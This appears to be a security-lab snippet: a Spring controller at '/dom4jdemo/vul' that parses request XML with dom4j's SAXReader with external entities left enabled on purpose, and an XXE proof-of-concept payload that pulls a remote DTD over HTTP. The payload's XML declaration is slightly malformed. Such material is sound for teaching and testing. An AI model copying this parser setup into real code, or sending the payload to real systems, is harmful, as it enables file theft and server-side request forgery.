 ```java
package com.example.xxedemo;

import org.dom4j.io.SAXReader;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.xml.sax.InputSource;

import javax.servlet.http.HttpServletRequest;
import java.io.InputStream;
import java.io.StringReader;

/**
 * 编号7089
 */
@RestController
public class DOM4JTest {

    @RequestMapping("/dom4jdemo/vul")
    public String dom4jDemo(HttpServletRequest request) {
        try {
            //获取输入流
            InputStream in = request.getInputStream();
            String body =  convertStreamToString(in);

            SAXReader reader = new SAXReader();  //创建对象
            reader.read(new InputSource(new StringReader(body)));  //读取，解析
            return "DOM4J XXE......";
        } catch (Exception e) {
            return "EXCEPT ERROR!!!";
        }
    }
    public static String convertStreamToString(java.io.InputStream is) {
        java.util.Scanner s = new java.util.Scanner(is).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";
    }
}
```



Poc:

```xml
?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE data [
        <!ENTITY % remote SYSTEM "http://127.0.0.1:8080/xxe.dtd">
        %remote;
        ]>
<message>
    <to>Kobe</to>
    <from>James</from>
    <text>&tmp;</text>
</message>
```
